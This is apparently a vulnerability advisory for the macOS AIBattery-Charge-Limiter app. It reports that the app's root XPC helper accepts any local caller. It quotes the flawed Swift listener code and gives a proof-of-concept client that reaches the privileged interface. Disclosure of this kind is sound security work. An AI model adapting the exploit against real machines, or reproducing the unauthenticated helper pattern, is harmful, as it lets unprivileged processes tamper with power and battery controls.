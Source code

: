 ## Summary

A root privileged XPC helper registers a public Mach service (`com.collweb.AIBatteryHelper`) and accepts any incoming connection without authenticating the caller (no audit token, code-signing TeamID or entitlement checks).

As a result, any local, unprivileged process can invoke methods exposed via BatteryXPCProtocol (e.g., `forceBatteryMode`, `enableAdapter`, `enableCharging`) and perform privileged power/SMC operations.

## Technical Details

The vulnerable implementation is located in:

- [BatteryXPCService.swift](https://github.com/whuan132/AIBattery-Charge-Limiter/blob/main/AIBatteryHelper/XPC/BatteryXPCService.swift)

The privileged helper runs as root and registers a Mach service (`com.collweb.AIBatteryHelper`) using NSXPCListener. It then unconditionally accepts all incoming connections:

```swift
class ServiceDelegate: NSObject, NSXPCListenerDelegate {
    func listener(_: NSXPCListener, shouldAcceptNewConnection newConnection: NSXPCConnection) -> Bool {
        // Define the exported protocol
        newConnection.exportedInterface = NSXPCInterface(with: BatteryXPCProtocol.self)
        // Provide the implementation object
        newConnection.exportedObject = BatteryXPCService()
        newConnection.resume()
        return true
    }
}
```
No validation (such as auditToken or code signing) is performed.

The helper then exposes functions like:

```
func enableCharging(withReply reply: @escaping () -> Void)
func disableCharging(withReply reply: @escaping () -> Void)
func updateMagSafeLed(_ isChargingEnabled: Bool, withReply reply: @escaping () -> Void)
func forceBatteryMode(withReply reply: @escaping () -> Void)
func enableAdapter(withReply reply: @escaping () -> Void)
func getVersion(withReply reply: @escaping (String) -> Void)
```

## Proof of Concept

Create a client app (`exploit.swift`) that connects to the privileged helper and calls `getVersion` via XPC.

```swift
import Foundation

@objc protocol BatteryXPCProtocol {
    func getVersion(withReply reply: @escaping (String) -> Void)
}

// Replace with the exact MachServices key from the helper's launchd/XPC plist:
let serviceName = "com.collweb.AIBatteryHelper"

// Use .privileged ONLY if the helper runs as root (SMJobBless/LaunchDaemon).
let connection = NSXPCConnection(machServiceName: serviceName, options: .privileged)
// If it's a non-privileged helper, use:
// let connection = NSXPCConnection(machServiceName: serviceName, options: [])

connection.remoteObjectInterface = NSXPCInterface(with: BatteryXPCProtocol.self)

connection.invalidationHandler = {
    fputs("[!] XPC invalidated\n", stderr)
    CFRunLoopStop(CFRunLoopGetMain())
}
connection.interruptionHandler = {
    fputs("[!] XPC interrupted\n", stderr)
}

connection.resume()

guard let proxy = connection.remoteObjectProxyWithErrorHandler({ error in
    fputs("[!] XPC error: \(error)\n", stderr)
    CFRunLoopStop(CFRunLoopGetMain())
}) as? BatteryXPCProtocol else {
    fputs("[!] Could not obtain proxy\n", stderr)
    exit(1)
}

print("[*] Connected; calling getVersion…")

// Simple timeout so the PoC won't hang forever
let timer = DispatchSource.makeTimerSource()
timer.schedule(deadline: .now() + 5)
timer.setEventHandler {
    fputs("[!] Timeout after 5s without a reply\n", stderr)
    CFRunLoopStop(CFRunLoopGetMain())
}
timer.resume()

proxy.getVersion { version in
    print("[+] Helper version = \(version)")
    timer.cancel()
    CFRunLoopStop(CFRunLoopGetMain())
}

CFRunLoopRun()
connection.invalidate()
```

## Impact 

- Any local, unprivileged process can control system-level power management normally restricted to root,
- an attacker can force battery mode, prevent sleep, and drain the battery to shutdown, making the laptop unusable until recharged,
- power policy (e.g., sleep/adapter/charging state) can be changed for all users and may persist until manually reverted,
- repeated forced discharge/charge cycles and disabling charging can accelerate battery wear; abrupt power-state changes may cause thermal throttling and degraded performance,
- no user interaction required; no privileges required; low complexity.

This breaks macOS’s security boundary between user and system-level operations.







